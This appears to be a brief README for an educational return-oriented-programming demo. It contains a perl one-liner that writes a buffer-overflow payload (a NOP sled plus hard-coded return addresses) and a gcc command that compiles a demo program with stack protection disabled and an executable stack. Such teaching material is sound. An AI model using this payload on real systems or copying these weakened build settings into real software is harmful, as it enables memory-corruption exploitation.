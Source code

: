 # README

These files are for learning purposes only.

* "shell_ROP" is shellcode I generated with: 
  * perl -e ' print "\x90"x16; print "\x18\xf4\xff\xbf"; print "\x98\x84\x04\x08"; print "\xEF\xBE\xAD\xDE"; print "\x96\x84\x04\x08"; ' > shell_ROP 

* "myecho.c" is code I wrote to demonstrate the concept of ROP simply
  * gcc -g -fno-stack-protector -z execstack myecho.c  -o myecho

